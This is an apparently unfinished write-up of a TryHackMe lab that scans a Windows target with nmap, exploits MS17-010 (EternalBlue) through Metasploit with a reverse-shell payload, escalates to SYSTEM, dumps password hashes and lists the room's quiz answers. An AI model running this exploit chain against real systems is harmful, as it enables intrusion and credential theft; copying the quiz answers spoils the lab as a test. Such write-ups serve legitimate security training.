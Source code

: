 ## Enum: Scanning with nmap

![image](https://github.com/user-attachments/assets/f454e18e-f5d4-464b-9e43-41e31f399eed)
```
nmap -sV -vv --script vuln *target*
```
This command will allow you to up your verbosity with -vv, and search for vulnerable open ports.
The output shows that:
- MSRPC () is open on port 135
- netbios-ssn is open on port 139
- microsoft-ds is open on port 445

tryhackme question: How many ports are open with a port number under 1000
Answer: 3

tryhackme question: What is the machine vulnerable to?
Answer: ms17-010
There are a few vulnerabilities listed on this machine, but this is the answer THM is looking for.


![image](https://github.com/user-attachments/assets/c48d686f-f003-4a5b-a511-b73145ee04e0)
This vulnerability allows remote attackers to execute arbitrary code via crafted packets, aka "Windows SMB Remote Code Execution Vulnerability." All those susceptible to this vulnerability are listed in the CVE:
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143


## Enum: SMB
![image](https://github.com/user-attachments/assets/91885aab-6b8d-4342-8f22-77709221a9cd)

## Exploit: msfconsole
Run metasploit
```
msfconsole
```
Search for the exploit available to ms17_010
![image](https://github.com/user-attachments/assets/d1c9f9a0-a128-475c-b51c-97ba37a994a7)

thm question: find the exploitation code
answer: exploit/windows/smb/ms17_010_eternalblue

Select the exploit

```
use 0
```

Show options

```
show options
```

thm question: What value do you need to set?
answer: RHOSTS

![image](https://github.com/user-attachments/assets/df7a2aa9-9820-4da4-be9d-1d43e354763c)
![image](https://github.com/user-attachments/assets/f9066c2a-c8f5-4035-8f1c-9a4c867bf0bb)

```
set payload windows/x64/shell/reverse_tcp
```
run the exploit

```
run
```

## Post-exploit: Gain Access
![image](https://github.com/user-attachments/assets/c717fb13-762f-4b65-96a1-f126e200c3fc)
we are now SYSTEM!

set the system shell to background (ctrl+z)
```
search shell_to_meterpreter
```

```
use 0
```

![image](https://github.com/user-attachments/assets/d60d8397-52c8-4eb3-8ed6-f35d159dbf65)
use the shell_to_meterpreter as seen above

list the sessions
```
sessions -l
```
![image](https://github.com/user-attachments/assets/331948b1-3689-405c-b6c2-8c072a327817)

```
set session 1
```

```
run
```
wait forever for the run to complete, it should take time to process once it reads 'stopping exploit/multi/handler'

![image](https://github.com/user-attachments/assets/063fea0b-8481-4736-a775-84734993deac)

list the sessions again, and select the meterpreter

```
sessions -i 3
```


```
getsystem
```
confirm that you are running as system

Run hashdump cmd to get the non-default user
```
hashdump
```

![image](https://github.com/user-attachments/assets/c385faec-8c9b-4415-8081-94b8a0570c70)

answer: jon

Running john the ripper, crack the hashed password

```

```
![image](https://github.com/user-attachments/assets/47e25664-d720-458b-b3ad-711bb1a338fa)

Flag 1 at system root:

![image](https://github.com/user-attachments/assets/1d4e82db-d442-4998-815e-7311fa47b6d0)


![image](https://github.com/user-attachments/assets/5ffb90d4-957f-40a5-95f8-483c28affffa)

![image](https://github.com/user-attachments/assets/716c6eb3-124d-463b-bbc6-64967bfcd7e5)

![image](https://github.com/user-attachments/assets/520d8364-f9ab-4ee1-9744-b9e849e87986)



...brb
